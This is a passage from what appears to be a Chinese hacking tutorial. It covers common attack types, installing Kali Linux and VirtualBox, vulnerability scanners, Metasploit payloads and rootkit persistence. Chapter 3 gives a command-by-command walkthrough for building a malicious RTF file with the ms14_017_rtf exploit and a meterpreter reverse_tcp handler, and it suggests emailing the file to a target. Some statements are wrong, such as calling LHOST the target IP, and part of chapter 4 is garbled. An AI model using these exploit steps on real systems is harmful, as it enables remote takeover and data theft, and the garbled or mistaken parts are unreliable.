

# Linux 骇客实战



## 内容描述

在了解了黑客常用的入侵方法后，为这些方法制定单独的防护策略是不现实的。因此，用户只能掌握个人计算机安全的通用防护策略，以确保计算机处于相对安全环境中。常见的 PC 防策略包括：安装和升级反病毒软件、启用防火墙、防止木马和病毒、共享文件夹以及定期备份重要数据。

病毒的出现对互联网计算机造成了巨大损失。这些病毒会导致系统无法正常运行，导致系统被格式化以及数据丢失。为了防止这些病毒造成的危害，用户需要在计算机上安装反病毒软件并开启实时监控。此外，由于病毒制作技术和手段的提高，新病毒不断出现，因此用户需要及时升级反病毒软件，以便其能够防止互联网上的新病毒。

防火墙是将计算机内部网络与外部网络隔离的方法。事实上，这是一种隔离技术。防火墙是在两个内外网络通信时执行的访问控制机制。它允许用户的授权计算机和特定数据进入内部网络，最大限度地防止外部网络的黑客访问并攻击自己。

为了防止木马和病毒入侵互联网，首先不要下载身份不明的软件和程序，选择信誉良好的下载站点下载程序，然后将下载成功的软件和程序放在系统分区以外。其他分区在打开之前需要使用反病毒软件对下载程序进行扫描。

此外，不要打开未知来源的邮件和附件，以避免邮件病毒或捆绑木马的入侵。即使你下载了信息中的附件，也需要用反病毒软件对其进行扫描。

在互联网上，某些黑客使用“钓鱼”方法进行诈骗，例如创建伪网站或发送包含欺诈信息的电子邮件，从而盗取网上银行、在线支付工具、信用卡账户和密码，并从账户中盗取资金。为了防止钓鱼，用户必须确保输入信息的 URL 是真实 URL，而不是钓鱼网站。不要随意输入。

在局域网（`LAN`）中，当用户共享文件时会产生软件漏洞，黑客会检测这些漏洞。因此，用户在设置共享文件夹时必须设置访问密码。取消共享后应立即取消共享状态。此外，在设置共享文件夹时，用户必须谨慎数据。数据的重要性是不言而喻的，无论采取什么样的安全措施，如果黑客能够访问系统，就无法防止攻击。因此，用户必须对在网络上共享的内容谨慎，因为这可能导致黑客随时访问你的数据并做好准备。

本指南将关注以下内容：

## 引言

了解黑客使用的技术将使你洞察可能。利用这些知识，你可以进一步探索。

### 键盘记录器 (Keylogger)

键盘记录器是一种非常简单的软件，旨在跟踪并记录用户输入的每个按键。这些按键会被存储在日志文件中，黑客通过访问该文件来识别银行详情、信用卡号以及你输入机器的任何内容。

键盘记录器最初是如何访问你的计算机的？这些代码行或软件通常附带在下载到你计算机的文件中，而你对此毫无察觉，被称为木马（源自希腊神话中的特洛木马）。这些文件会将从你计算机中收集到的信息报告给黑客。这些文件访问你计算机的其他方式是 `Format` 直接访问或通过你提供的 `USB` 驱动器放在计算机上。

键盘记录器也可能被用于白帽目的，例如在组织内部确保员工遵循正确的政策和程序，而不参与欺骗行为。

### 拒绝服务 (DoS/DDoS)

这涉及导致网站变得不可用。由于信息和流量的泛滥，网站被关闭，导致系统在极力处理所有请求时因过载并最终崩溃。这些攻击由黑客采用，他们的目的是出于任何原因或动机破坏他们想要破坏的网站或服务器。例如，一个黑客行动主义黑客可能会关闭一个与他们的政治观点不符的网站，认为这是他们的道德义务。而黑帽黑客可能会关闭竞争对手的网站，以扰乱其服务并破坏他们的努力。

`DoS` 攻击是使用僵尸网络或受感染系统网络执行的，这些系统几乎被用作僵尸服务器军队反复攻击目标服务，使其过载。这些受感染的系统是通过带有病毒的电子邮件和软件创建的，一旦被感染，这些僵尸计算机就可以被黑客随意使用。行业数据显示，多达 45% 的机构遭受过 `DDoS` 攻击，每年造成数百万美元的损失。

### 漏洞扫描器 (Vulnerability Scanner)

为了检测计算机网络中的弱点，黑客使用称为漏洞扫描器的工具。这也可以指端口扫描器，用于扫描特定计算机上黑客可以利用的可用访问点。端口扫描器还能确定在该特定端口上运行着哪些程序或进程。

黑客借此获取其他有用信息。防火墙的创建是为了防止对这些端口的未经访问；然而，这更多像是一种损害减轻策略，而不是防止黑客的万无一失。

某些黑客能够手动识别访问点，而不是使用程序。这涉及读取计算机系统的代码并测试弱性，查看他们是否能够获得访问权限。如果他们无法查看代码，还可以采用逆向工程程序的方法来重新创建代码。

## 暴力破解攻击 (Brute Force Attack)

如果你曾想过为什么在被拒绝访问之前，你输入密码的次数是有限的，那是因为你尝试访问的服务器具有防止暴力破解攻击的保护措施。暴力破解攻击涉及软件，该软件尝试在极短时间内通过扫描字典或随机单词生成器来尝试还原密码，以命中密码并获得访问。正因如此，密码已经演变成比过去长得多且复杂得多的，例如包含字符、数字、大写和小写字母，有些甚至会禁止字典中出现的词汇。

## 水穴攻击攻击 (Waterhole Attacks)

水穴攻击之所以被称为这个名字，是因为黑客会在大量人员访问其计算机并交换安全信息的物理位置进行捕猎。这就像水穴可以被周围的野生动物下毒，黑客可以毒害物理访问点来捕获受害者。例如，黑客可以使用咖啡馆、联合办公空间或公共 `Wi-Fi` 访问点等物理点。这些黑客随后能够跟踪你的活动、经常访问网站以及访问信息的时间，并策略性地将你的路径重定向到虚假网页，允许信息发送给黑客，让他们以后随心所欲地使用。务必在你在使用公共 `Wi-Fi` 时，拥有适当的反间谍软件和反病毒软件，以便在在线时可能出现可疑活动时提醒你。

## 虚假 WAP (False WAP)

与水穴攻击类似，黑客可以使用软件创建一个虚假的无线接入点。该 `WAP` 连接到官方的公共无线接入点，但一旦受害者连接，他们就会暴露并处于脆弱状态，因为他们的数据可以在任何时候被访问和窃取。在公共场所时，请确保你使用的 `WAP` 是正确的；它们通常在访问前会有密码，或者有一个要求你输入从管理员处获取的用户名、电子邮件地址和密码的门户网站。如果你发现访问点是完全开放的，这可能引起警觉，因为这个点很可能是诱饵。

## 钓鱼 (Phishing)

黑客从毫无防备的受害者那里获取安全信息的另一种常用技术是钓鱼。钓鱼涉及黑客创建一个你通常会与经常访问的网站关联的链接，例如银行网站或支付门户网站。然而，当你输入详细信息时，它们会被发送给黑客，而不是你认为要发送到的机构。钓鱼通常通过发送伪邮件完成，这些邮件看起来来自你的银行或账单机构，通常要求你访问账户以更新详细信息或进行付款。

有方法可以区分你是否是钓鱼攻击的目标，例如检查发送者 ID（这仍然可以伪造）或检查为你提供的链接详情，看它是否与你填写详细信息的常用网站不符。你可能还会注意到邮件的格式问题，例如 Logo 位置错乱或格式糟糕，这会表明钓鱼者没有使用正确的模板。许多机构都会坚持他们不会通过电子邮件索要你的详细信息或要求你更新详细信息，如果你通过电子邮件收到了账单并感到怀疑，可以检查之前的账单邮件，甚至致电你的机构以双重检查邮件是否真实。

## 点击劫持攻击 (Clickjacking Attacks)

如果你曾尝试在信誉一般的网站上流媒体视频，你可能会注意到界面导航相当混乱，因为存在虚假的播放按钮或常见区域，在你点击它们后就会被重定向到其他地方。这些被称为点击劫持攻击以及 `UI Redress`。虽然重定向到广告或另一个页面看起来是无害的，但如果操作得当，这些攻击可能非常阴险且具有潜在危险，因为它们能够捕获你的信息。在使用熟悉的网站时，你需要格外小心，因为它们可能并没有看起来那么安全，其界面会将你带到黑客想要让你去的地方。

始终注意你每次点击的 URL，如果它与你刚刚所在的网站有巨大差异，请确保你被带去的地方不涉及任何下载或详细信息的交换，以保护你自己的安全。

## 诱敌与调换 (Bait and Switch)

诱敌与调换技术涉及黑客为你提供一个看起来是真实的程序，但当它运行时，它是一个病毒或黑客用于访问你计算机的工具。这些程序通常可以在提供盗版程序、软件、电影或高需求游戏的无良网站中找到。一旦你下载了程序，你会发现该文件并不是你想要的，而是向你的计算机加载了病毒，以为黑客提供访问权限。

## 社会工程学 (Social Engineering)

这种技术经常被忽视为黑客手段，但它可能非常有效。社会工程学的示例是伪装成用户或个人来欺骗系统管理员。许多此类黑客被认为是骗子，尽管他们对正在攻击的安全防护措施有良好的理解。社会工程学可以分为以下几类：

- 恐吓 (Intimidation)：恐吓的示例涉及上级（如经理或主管）给帮助台人员，愤怒并威胁如果受到质疑将受到惩罚。在压力下，员工会配合并提供信息。对权威的质疑会被终止，因为员工重视工作并提供协助。
- 帮助性 (Helpfulness)：在光谱的另一端是帮助性技术。这涉及伪装痛苦和担心以利用人员提供帮助的本性。与其愤怒并给人员施加压力，痛苦的黑客会表现得自己也处于压力之下并对结果感到担忧。人员会尽一切提供援助，无论存在给黑客带来进一步痛苦的风险。


- 提及姓名 (Name-dropping)：拥有授权用户的名字为黑客提供了优势，他们可以假装是某个有权访问该信息的个人。这可以通过从网上轻松找到的公司网页来实现。另一个示例是搜索丢弃不当的文件，为黑客提供关键细节。

- 技术性 (Technical)：社会工程学的另一个领域是利用技术作为支持手段获取信息。这可能涉及黑客向合法用户发送传真或电子邮件，要求用户回复敏感信息。黑客通常伪装成法律信息或法律代表，作为正在进行的调查的一部分要求这些信息。

黑客可以捕获数据包，这些包可能包含密码和其他记录等关键信息。

# 第1章 构建黑客环境

为了开始无线入侵，必须首先为工具设置一个适当的环境，当然首先是从安装 `Kali Linux` 开始。根据用户的需求和硬件，`Kali Linux` 的安装主要分为三类：

1) 硬件安装
   - 独立安装
   - 双系统/多启动
2) 虚拟机安装
3) 外部媒体安装

每种安装类型都有其优缺点，最佳选择主要取决于软件的预期用途。`Kali` 的设计并不是为了成为一种带有普通用户喜爱的典型软件的“日常”消费产品，因此，只有当特定机器专门用于渗透测试活动时，在个人电脑上将其安装为独立操作系统才是具有实际意义的。或者，如果空间允许，`Kali` 可以与其他操作系统一起以双启动或多启动的形式存在于硬盘中。

通常，`Kali Linux` 会安装在另一个操作系统（无论是 Linux还是其他）的虚拟化软件内部。这种配置会消耗更多资源，但为黑客提供了更大的灵活性，并允许他在主机内的其他虚拟机上练习攻击。当 `Kali` 安装在可移动外部介质（如 CD-ROM 或 USB 闪盘）上时，也可以作为可启动的“Live”操作系统使用。由于光驱驱动器变得越来越常见，USB 介质对于外部安装更为实用。Live 发版的优势在于它可以在多台机器上，而且 `Kali Linux` 包含的一些数字取证工具在目标机器启动结构之外运行效果。本章将重点介绍硬件和虚拟安装程序。

## 在硬盘上安装 Kali Linux

最新版本的 `Kali Linux` 对主机配置有以下最低要求：

1) 10 GB 硬盘（建议 20 GB）
2) 512 MB 内存（建议 1 GB）

用户还需要 USB 端口或 CD-ROM 驱动器来启动安装。建议主机具有某种网络接口，当然，是为了软件更新以及渗透测试中的连接。

无论是将 `Kali Linux` 作为独立操作系统安装还是多启动方案，安装的第一步都是从 Offensive Security 获取最新的 `ISO`（符合国际标准组织的磁盘镜像）并将其复制到外部介质。可以在 `www.kali.org/downloads/` 最新的发布列表。

建议从开发者处获取 `ISO` 镜像，而不是从第三方或文件共享源，以确保代码的完整性。`ISO` 提供 32 位和 64 位版本，取决于主机的处理器架构。请注意，64 位版本无法在 32 位处理器上运行。您可以直接从相应的链接下载 `ISO`，或者在使用 `torrent` 客户端通过 `torrent` 链接下载。每个 `ISO` 文件都提供了 `SHA1Sum` 哈希。文件下载完成后，可以使用 `checksum` 软件读取其哈希并与给定的字符串进行比较。如果字符串不完全匹配，则文件已被篡改，不应使用。此校验和程序可以防止下载损坏或被劫持的文件（小偷之间没有仁义！）。

### 独立安装

在开始独立安装 `Kali Linux` 之前，需要了解此程序将*覆盖主机硬盘上的所有现有数据*。这包括之前存在的操作系统（如果有），以及任何其他文件或软件。

独立安装的步骤如下：

1) 确保最低硬件和芯片架构

检查您的主机是否符合 `Kali` 的最低硬件要求（当前为 10 GB 存储空间和 512 MB 内存），以及它是否支持 64 位安装（不支持，请使用 32 位版本）。

2) 备份主机硬盘上的任何文件

由于安装将覆盖主机硬盘上的任何现有数据，请传输或备份任何需要的文件或设置（例如，到云盘、闪盘、CD、DVD 或外硬盘）。

3) 确保正确的启动顺序

重启您的主机并进入 `BIOS` 菜单。如果需要，安装后可以将启动顺序更改为其他设置。确保退出 `BIOS` 菜单时保存 `BIOS` 设置。

4) 加载 ISO

更改 `BIOS` 后，完全关闭主机，插入包含 `ISO` 的光或 USB 介质，然后重启电脑。`Kali` 启动菜单出现可能需要几秒钟。

5) 遵循安装说明

当 `Kali` 启动菜单出现时，选择 `Graphical Install`（图形化安装）选项。接下来的安装步骤包括针对 `Kali` 初学者的通用推荐选项。

`请选择用于 Kali 的分区，否则其他数据将被擦除。`

`继续。`

4. 在“分区设置 (Partition settings)”列表中，选择“删除分区 (Delete the partition)”并继续。

5. 下一个屏幕现在应该显示预期的 `Kali` 分区为“空闲空间 (FREE SPACE)再次选择该分区并继续。

6. 在“如何使用空空间 (How to use the free space)”屏幕上，选择“自动分区空空间 (Automatically partition the free space)”并继续。

7. 对于“分区方案 (Partitioning scheme)”，选择“所有文件分区（All files in one partition)”并继续。

8. 最后，选择“完成分区并将更改写入磁盘 (Finish partitioning and write changes to disk)”，继续，并选择“是”确认写入更改。继续从步骤 5 恢复安装。

## 在虚拟机上安装 Kali Linux

处理器速度的进步、多核和多处理器芯片的出现、内存容量的增大以及数据存储的增加使得硬件虚拟化成为在单一计算设备上运行多个软件平台的可行且实用手段。在虚拟机中运行操作系统具有优势，因为它消除了对多台昂贵硬件的需求，并使得使用 `Kali` 这种高度专门的发行版变得可行。此外，在单主机上使用渗透测试软件允许黑客在安全的“沙箱”环境中练习攻击，目标是主机内的其他各种虚拟机。在虚拟机中使用操作系统的缺点是会竞争主机的资源，且虚拟硬件能力受限于主机的性能。

目前有免费的、功能且功能丰富的虚拟机软件。最常见的免费虚拟机程序是 `Virtualbox` 和 `VMware Player`（具有附加功能的商业版本）。`QEMU` 是一个仅运行在 Linux 上的开源选项。本书将使用 `Virtualbox` 来演示虚拟 `Kali` 的安装，因为它适用于 Windows、Macintosh、Linux 甚至 Sun 系统。

### 安装虚拟化软件

`Virtualbox` 是一款流行的多平台开源虚拟机应用程序。安装步骤如下：

1. 确保满足最低规格

`Virtualbox` 设计用于运行在 `x86`（Intel 或 AMD 芯片等）架构上，建议主机至少拥有 1 GB 内存。此外，主机应留有足够的可用硬盘空间以容纳你打算安装的任何虚拟机操作系统。

2. 启用硬件虚拟化

如果你使用 Windows 或 Linux 主机电脑，请重启电脑并进入 `BIOS` 菜单。导航到虚拟化选项（菜单因电脑而异）并确保其已启用。退出 `BIOS` 菜单时务必保存 `BIOS` 设置。

Macintosh 硬件不以“PC”电脑相同的方式使用 `BIOS`。如果尚未启用硬件虚拟化，必须通过终端应用程序中的命令行设置。这是一项需要 root 权限的高级程序，且命令语法在不同 Mac OS 版本之间可能有所不同。请你的文档或制造商以在 Macintosh 硬件上启用虚拟化。

3. 下载安装文件

可以在（图 5）获取最新的源码和二进制发行版：`https://www.virtualbox.org/wiki/Downloads`

*Windows*

“Windows hosts”链接提供一个 `.exe` 二进制 Windows 安装文件。`Virtualbox` 网站文档列出了当前版本支持的 Windows 版本。

***Macintosh OS X***

“OS X hosts”链接提供一个 `.dwg` Mac OS X 磁盘映像文件。

*Linux*

“Linux distributions”链接将打开一个新页面，列出适用于不同 Linux 发行版的各种 `Virtualbox` 包。然而，建议通过你个人 Linux 发行版的包仓库下载并安装 `Virtualbox`（参见步骤 4）。

4. 安装 Virtualbox

*Windows*

打开 Windows 可执行安装文件将启动一个典型的 Windows 安装“向导”对话框。遵循安装说明。安装选项和额外的应用程序选择取决于你的个人偏好。

***Macintosh OS X***

打开 `.dwg` 磁盘映像将挂载该映像并打开一个包含 `Virtualbox` “.mpkg”OS X 安装文件的窗口。启动 `.mpkg` 文件开始安装并遵循说明。安装选项和额外的应用程序选择取决于你的个人偏好。

***Linux (基于 Debian 的衍生)***


大多数现代 Linux 发行版都是原始 Debian 和 Fedora（例如 Red Hat）内核的派生版本。为了说明在 Linux 操作系统上安装 Virtualbox，以下步骤描述了适用于 Ubuntu Linux（一种 Debian 派生版）系统的安装过程。其他 Linux 发行版的安装在语法和仓库位置上可能有所不同。这些步骤适用于大多数更新的 Debian 版本。

### 使用软件中心从 Ubuntu 仓库安装 Virtualbox

I. 从启动器菜单打开“Ubuntu 软件”应用程序。

II. 在顶部的搜索行中输入“virtualbox”。VirtualBox 应该出现在结果包列表中。

III. 点击 VirtualBox 包旁边的“安装”。

IV. 如果提示，输入你的密码以验证 root 权限。

V. 安装将自动进行一会。

### 使用命令行从 Ubuntu 仓库安装 VirtualBox

I. 打开名为“终端 (Terminal)”的 Ubuntu 命令行控制。

II. 输入以下命令更新软件仓库（如果提示则输入 root 密码）：

```
sudo apt-get update
```

```
sudo apt-get install virtualbox
```

III. 安装将自动进行一会。

### 从磁盘或 ISO 安装 Kali Linux 虚拟机

一旦安装了虚拟化软件，就可以在主机上作为虚拟机安装 Kali Linux。本示例将再次使用 VirtualBox 来演示该过程：

I. 在你的主机上打开 VirtualBox。

II. 点击“新建 (New)”创建一个虚拟机。

III. 遵循“创建虚拟机”向导对话框，使用下方列出的推荐参数：

a. 名称和操作系统

*名称* >> `[Kali Linux]`（或你选择的任何名称）

*类型* >> `[Linux]`

*版本* >> `[Debian (64-bit)]`（适用则选择 32 位）

b. 内存大小 >> `[1024 MB]`

c. 硬盘 >> `[创建一个虚拟磁盘]`

d. 硬盘类型 >> `[VDI (VirtualBox 磁盘映像)]`

e. 物理硬盘上的存储 >> `[动态分配]`

f. 文件位置和大小 – 使用默认磁盘文件名。建议为虚拟驱动器分配 10 GB–20 GB。

IV. 你创建的 Kali 虚拟机现在将出现在 VirtualBox 主窗口的虚拟机列表中。

V. 通过通过设置选项和选项卡设置以下推荐设置（根据需要更改其他选项）：

a. 系统 >> 处理器 >> `[2 或更多]`

b. 系统 >> 扩展功能 >> `[启用 PAE/NX]`

VI. 在“存储 (Storage)”设置中，在存储树中突出“空 (Empty)”IDE 控制器磁盘。在“属性 (Attributes)”下，点击“光驱”磁盘图标并导航到本文开头下载的 Kali Linux `.iso` 文件位置。点击“确定”保存并关闭设置。

VII. 在 VirtualBox 主窗口中，选中 Kali 虚拟机，点击“启动 (start)”启动虚拟机。

VIII. 将打开一个新窗口，进入 Kali 的初始启动界面。在步骤 5IX，“在硬盘上安装 GRUB 引导程序”上，务必选择在虚拟机安装期间创建的虚拟 Kali 驱动器。完成剩余的安装步骤。

### 安装预配置的 Kali 虚拟机

某些操作系统虚拟机提供了针对特定虚拟化应用程序的预配置版本。这些被称为*设备镜像 (appliances)*，允许用户跳过大量的设置工作。要在 VirtualBox 上安装 Kali 设备镜像，请遵循以下步骤：

I. 访问 Offense Security 下载页面：`www.kali.org/downloads/` 并点击“Kali Virtual Images”。

II. 下载“Kali Linux 64 bit VM”（如果对你的硬件需要则下载 32 位）。将下载的文件内容解压到你指定的目录。

III. 打开 VirtualBox 并从文件菜单中选择“导入设备 (Import Appliance)”。

IV. 导航到包含“`.vbox`”文件的目录并选择你所需的设备。

V. 点击“下一步 (Next)”进入设置页面并进行任何所需的更改，然后点击“导入 (Import)”。这将完成虚拟机安装。

# 第 2 章 漏洞

无论一个网络据称有多安全，总会有漏洞让你利用这些漏洞进入无线网络。大多数情况下，漏洞是应用程序内部的错误，它会影响你为保护自己而采取的安防措施。你可以在 BugTraq 等应用程序中找到这些漏洞。CERT（计算机应急响应小组）每年都会发布一份报告，告诉他们发现了多少漏洞，以便人们能够更好地保护自己。

### 漏洞扫描

当你能够搜索漏洞时，你将寻找任何你可能在目标网络上利用的已知漏洞。

### Nikto

通过 Nikto，你可以对 Web 进行扫描，以发现具有弱点的应用程序以及可能存在危险的文件。通过这个开源软件，你可以找到适用于 Linux 系统或 Windows 系统的版本。当你使用此程序时，你将使用一个适用于命令行界面。

### Nessus

你可能听说过 Nessus，因为它是全球著名的漏洞扫描器之一。你可以免费使用 Nessus，它几乎可以在任何操作系统上运行。Nessus 使用了一些插件，可以根据你想要寻找的漏洞类型来帮助发现漏洞。然而，你需要确保更新你的插件。

你还可以使用 Nessus 进行非侵入式扫描，这种扫描不会像侵入式扫描那样伤害目标。这些扫描要求你拥有目标的域名或至少是 IP 地址。通过这个程序，你可以扫描端口，从而确定该网络上运行着哪些程序以及正在使用的操作系统。

扫描完成后，一份报告将显示所有发现的开放端口及其对应的漏洞。

### 漏洞利用

当你利用应用程序内部的错误时，你将发送各种命令，这些命令将被执行，以防止程序按照预期的方式运行。你可以执行诸如绕过进入网络可能需要的身份验证、获取比你当前访问权限更高的权限等等操作。

### Metasploit

该框架首次于 2003 年发布，它允许用户对目标执行一组特定的操作。这些操作包括：

- 集成规避和编码过程。

- 确保通过易于更新的使用可以对单个数据库进行利用。

- 拥有一个具有选项的界面。

- 将利用程序（exploits）与载荷（payloads）结合。

所有这些操作在以下情况下都会发生：

- 你使用规避技术来绕过设备上的安全防护。

- 使用代码来利用该代码所在的模块，以便利用特定的漏洞。

- 你必须修改收到的载荷的编码，以避免因发现的漏洞而导致的限制。

- 你的载荷有一段代码必须发送到另一个位置，以便对该漏洞采取行动。

- 当你需要使用特定选项来选择载荷和利用程序攻击的对象时。

使用 Metasploit 非常简单，因为你每次使用它时都遵循相同的set基础程序：

1. 决定你想使用哪种利用程序

2. 设置你的载荷

3. 选择你的目标 IP 地址以及你准备通过哪个端口进入

4. 执行你的计划

5. 评估你的结果

6. 决定你是否可以开始或重启你的程序

如果你正在尝试寻找主机内部的漏洞，那么你将不想使用 Metasploit。相反，你将使用旨在寻找网络中所有漏洞的扫描器。如果你不想这样做，也可以一直使用端口扫描器来寻找开放点并利用它们。

在 3.0 版本中，当你处理漏洞时，会有几个不同的载荷可以运行：

- Meterpreter：使用此载荷，你将使用一个专门运行在 Windows 上的命令行界面。

- VNC 注入：这也运行在 Windows 上，但你会获得目标的图形界面，使其与目标正在使用的用户界面同步。

- 添加用户（Add user）：当你添加用户时，你需要特定的名称和密码，且该账户需要具有管理员权限。

- 文件执行（File execution）：一个文件将被上传到目标计算机上，然后运行该文件，从而运行文件中可能包含任何恶意代码。

- 交互式 shell（Interactive shell）：另一个与目标交互的命令行界面，执行你给它的任何命令。

在处理 VNC 连接时，你应该确保有足够的带宽，以确保你的程序按预期方式运行。同时，你不希望有人坐在你正尝试破解的电脑前。万一有人在那里，他们只需要与你运行的程序进行交互，并注意到你正在他们的电脑上做什么。

OS X 和 Linux 使用的命令行界面比 Windows 上运行的更强大。与其他任何程序一样，该程序也有它的缺点。

### 保持控制

黑入他人网络的根本目的是获取其系统的控制权。但你能做的最好的事情是保留你为自己的网络赋予了自己的权限。一旦进入了程序，你将在该计算机上安装一个根内核程序（rootkit），以便对网络拥有最大的控制权。

但要小心，因为你使用的某些程序可能会导致网络上发现列出的新帐户或计算机被破解。然而，有一些程序可以隐藏你甚至在场的事实。当你使用这类程序时，它们可能会让你处于隐形状态。

使用根内核程序（rootkit）的 OS X 和 Linux命令行命令行比 Windows 上运行的更强大。就像其他程序一样，该程序也有它的缺点。

# 第 3 章 使用 Metasploit 攻击 Windows


Metasploit Framework 包含的漏洞应用非常广泛。该框架中工具的一个极大优势在于是，总有办法让它们互为补充。在本章中，你将学习 `ms14_017_rtf` 漏洞，以及如何使用它向 Windows 7 计算机投送有效负载，以利用已知漏洞并远程破解该计算机。

## 使用 Meterpreter 执行 Metasploit 漏洞攻击

现在你已经知道漏洞在 Metasploit 中是如何工作的，让我们尝试使用 `ms14_017_rtf` 漏洞攻击你的目标 Windows 计算机。你可以搜索该漏洞以获取更多信息。

几年前，Windows 7 中发现了一个漏洞，允许远程黑客通过向目标发送一个富文本文件来远程控制系统。你只需要创建并保存一个 `.rtf` 文件漏洞，然后发送给目标。当文件被打开时，就会启动一个 `meterpreter` 会话，允许你远程在目标系统上执行几乎任何操作。假设你新安装的 Windows 7 没有补丁，它应该还有这个明显的漏洞。

本章向你介绍了另一个非常有用且强大的黑客工具：`meterpreter`。它是一个高级且动态扩展的有效负载，能够获取对目标系统的完全访问权限。

### 第 1 步：启动 Metasploit

有两种方式可以在 Kali Linux 上初始化 `Metasploit`：通过终端或通过应用程序菜单。在桌面上，点击左角的角的快捷方式，进入 `Kali Linux > Top 10 Security Tools > Metasploit Framework`，然后选择通过互联网破解计算机的 exploit。

### 第 2 步：初始化漏洞

当 Metasploit 服务初始化时，在其终端窗口中输入以下命令来初始化漏洞：

`msf > use exploit/windows/fileformat/ms14_017_rtf`

`msf exploit[ms14_017_rtf] >`

如果你想查看有关已加载漏洞的更多信息，可以使用 `info` 命令。

### 第 3 步：设置漏洞选项

下一步是检查该漏洞还需要哪些进一步的信息或进程。使用 `show options` 命令打开你可能需要为该漏洞设置的选项列表。

`msf > use exploit/windows/fileformat/ms14_017_rtf`

`msf exploit(ms14_017_rtf) > show options`

终端窗口将打开一个选项列表。它们包括指定 rtf 漏洞文件的文件名、设置有效负载以及定义 `LHOST`（目标 IP 地址）。

### 第 4 步：为漏洞命名

选择一个目标会分配给富文本文件的任何适当文件名。在案例中，我们将使用 `contacts.rtf`。我们将使用此命令分配文件名：

`msf > use exploit/windows/fileformat/ms14_017_rtf`

`msf exploit(ms14_017_rtf) > set FILENAME contacts.rtf`

`FILENAME => contacts.rtf`

`msf exploit(ms14_017_rtf) >`

### 第 5 步：设置有效负载

接下来，我们将使用 `PAYLOAD` 命令为存储在 `/windows/meterpreter/` 下的 `contacts.rtf` 文件设置 `reverse_tcp` 有效负载。这将帮助我们在文件被打开时初始化 `meterpreter` 会话，使我们即使通过互联网也能远程破解目标计算机。

`FILENAME => contacts.rtf`

`msf exploit(ms14_017_rtf) > set PAYLOAD windows/meterpreter/reverse_tcp`

`PAYLOAD => windows/meterpreter/reverse_tcp`

`msf exploit(ms14_017_rtf) >`

### 第 6 步：设置目标 IP 地址 (LHOST)

如果你使用本地安装的 Windows 进行练习，请确保网络配置恰当。找到 Windows 7 虚拟副本的 IP 地址并将其设置为 `LHOST`。你可以通过在 Windows 命令行中输入 `ipconfig` 以及 Kali Linux 终端中输入 `iwconfig` 来查找 IP 地址。在演示中我们将使用 `192.168.10.10`。

`PAYLOAD => windows/meterpreter/reverse_tcp`

`msf exploit(ms14_017_rtf) > set LHOST 192.168.10.10`

`LHOST => LHOST 192.168.10.10`

`msf exploit(ms14_017_rtf) >`

### 第 7 步：编译漏洞

使用 `exploit` 命令编译漏洞。

`msf exploit(ms14_017_rtf) > exploit`

`[+] contacts.rtf stored at /root/.msf4/local/contacts.rtf`

`msf exploit(ms14_017_rtf) >`

### 第 8 步：配置漏洞的多路处理器连接

我们现在已成功创建了漏洞。下一步是配置它接受到我们计算机的连接。我们将使用 Multi-Handler 来配置此连接。以下是使用的命令：

`[+] contacts.rtf stored at /root/.msf4/local/contacts.rtf`

`msf exploit(ms14_017_rtf) > use exploit/multi/handler`

使用此命令为 handler 设置使用的有效负载：

`msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp`

`PAYLOAD => windows/meterpreter/reverse_tcp`

`msf exploit(handler) >`

最后设置 `LHOST`，就像我们之前为漏洞设置一样：

`msf exploit(handler) > set LHOST 192.168.10.10`

`LHOST => LHOST 192.168.10.10`

`msf exploit(handler) >`

就是这些！最后一步是将 `.rtf` 文件作为邮件附件或通过链接发送，并等待他们打开。由于我们使用的是虚拟系统，你可以将此文件复制到 Windows 系统并打开它。当文件被打开时，将启动 `meterpreter` 会话，它将授予黑客对系统的完全访问权限。要继续进行这一步，你需要研究 `meterpreter` 尤其是它的命令。

在本章中，你学习了如何使用黑客可以使用的最强大的工具之一来利用 Windows 中的已知漏洞。对你来说最重要的教训是攻击是如何执行的，以及如何使用 `meterpreter` 等各种工具。

### 练习题

Windows 7 Service Pack 1 是初级黑客学习技能最理想的操作系统，因为有许多他们可以练习的已知漏洞。在将来，你将负责寻找自己的漏洞，这包括关注微软发布的补丁更新。

了解更多关于运行在 Windows 7 Service Pack 1 上的 Internet Explorer 8 内存损坏漏洞的信息，并使用在本章中学习的方法来利用它并破解你的虚拟 Windows 安装。

# 第 4 章 黑帽黑客

保持好奇心并学习某些主题甚至精通它们是好事，但你应该始终知道界限。我的意图并不是教你如何成为一名黑帽黑客，事实上我不鼓励你成为其中一员，但我将提供关于什么是黑帽黑客的概述。首先，让我说，根据我们目前的社会，黑帽黑客确实是坏的。是的，他们是坏人，仅此而已，但如果你与他们任何一个交谈，他们会对他们所做的事情以及为什么这不是坏事给出完美的解释（至少有些人是这样）。

你必须理解的是黑帽黑客非常聪明，在成为其中一员之前，他们很大一部分曾是白帽黑客。为了抓住他们，可能实际上是因为他们想被抓住，而不是犯了错。

使用它进行购物的唯一目的。如今，游戏已经改变了。黑客不再仅仅试图盗取一张信用卡信息，而是攻入大型公司网站，窃取数十万张信用卡信息并在暗网出售。

我甚至听过有些暗网卖家以 10 个为一组出售包含密码码在内的信用卡信息，价格低至只需 5 美元，如果你有资金，甚至可以买到几十万张。

